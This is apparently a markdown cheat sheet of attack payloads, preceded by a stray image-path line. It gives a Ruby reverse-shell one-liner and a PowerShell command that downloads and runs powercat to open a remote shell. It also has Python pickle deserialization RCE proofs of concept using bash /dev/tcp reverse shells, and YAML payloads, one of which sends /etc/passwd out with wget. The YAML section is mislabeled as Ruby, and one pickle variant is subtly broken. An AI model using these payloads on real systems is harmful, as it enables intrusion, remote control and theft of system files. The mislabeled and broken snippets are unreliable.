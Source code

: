 ### Ruby 
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("domain","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Powershell 
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c domain -p port -e cmd
```

---
## Python Pickle RCE PoC<br>

### eval 
```python
import __builtins__
import pickle
import base64

class rce(object):
  def __reduce__(self):
    x = "open('bash -i >& /dev/tcp/domain/port 0>&1').read()"
    return (__builtins__.eval, (x,))

print(base64.b64encode(pickle.dumps(rce())))
```

### os.system 
```python
import os
import pickle
import base64

class rce(object):
  def __reduce__(self):
    return (os.system, ('bash -i >& /dev/tcp/domain/port 0>&1',))

print(base64.b64encode(pickle.dumps(rce())))
```

---
## RCE with Ruby YAML.load

```
!!python/object/apply:subprocess.check_output ['ls']
!!python/object/apply:subprocess.check_output
       args: [ bash -i >& /dev/tcp/domain/port 0>&1 ]
       kwds: { shell: true }
!!python/object/apply:os.system ["wget https://requestbin/?`cat /etc/passwd`"]
```

---